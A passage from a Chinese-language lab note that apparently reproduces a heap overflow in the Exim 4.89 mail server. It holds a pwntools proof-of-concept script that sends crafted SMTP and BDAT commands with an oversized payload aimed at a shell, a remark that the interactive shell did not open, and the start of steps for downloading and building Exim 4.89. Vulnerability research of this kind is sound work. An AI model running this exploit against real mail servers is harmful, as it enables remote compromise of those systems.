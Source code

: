    ![1553829297737](C:\Users\loongxu\AppData\Roaming\Typora\typora-user-images\1553829297737.png)

   进入交互模式失败

6. poc代码

   ```python
   #pip install pwntools
   from pwn import *
   r = remote('127.0.0.1', 25)
             
   r.recvline()				#接收一行输出
   r.sendline("EHLO test")    
   # 发送载荷，并进行换行，末尾\n    ehlo发件人姓名，告诉smtp服务器发送者的用户名
   
   r.recvuntil("250 HELP")		
   #接收数据，直到收到“250 HELP”  HELP查询虚拟服务器在smtp会话中支持的smtp命令列表
   
   
   r.sendline("MAIL FROM:<test@localhost>")   #标识发件人
   r.recvline()
   r.sendline("RCPT TO:<test@localhost>")		#标识收件人
   r.recvline()								#接收一行输出
   r.sendline('a'*0x1250+'\x7f')
   r.recvuntil('command')
   r.sendline('BDAT 1')
   r.sendline(':BDAT \x7f')		#发送载荷，并进行换行，末尾\n
   s = 'a'*6 + p64(0xdeadbeef)*(0x1e00/8)
   #0xdeadbeef一般用于填充已分配未初始化的内存
   #p64/p32打包一个整数，打包为64位/32位
   #u64/u32解包一个字符串，得到整数
   r.send(s+ ':\r\n') 
   r.recvuntil('command') 	#接收到'command'为止
   r.send('\n')     #发送载荷
   r.interactive()  #shell数据交互
   ```

- ![](C:\Users\loongxu\AppData\Roaming\Typora\typora-user-images\1554357577090.png)
- ![1554358368118](C:\Users\loongxu\AppData\Roaming\Typora\typora-user-images\1554358368118.png)

- ![1554358460897](C:\Users\loongxu\AppData\Roaming\Typora\typora-user-images\1554358460897.png)




# exim安装配置

1. exim的ftp服务器获取文件

2. ```
   #wget  http://www.mirrorservice.org/sites/ftp.exim.org/pub/exim/exim4/old
   /exim-4.89.tar.gz
   ```

   解压 

   ```
   #tar -zvxf exim-4.89.tar.gz
   ```

3. 进入Local文件夹

4. ```
   #cd exim-4.89/Local
   ```
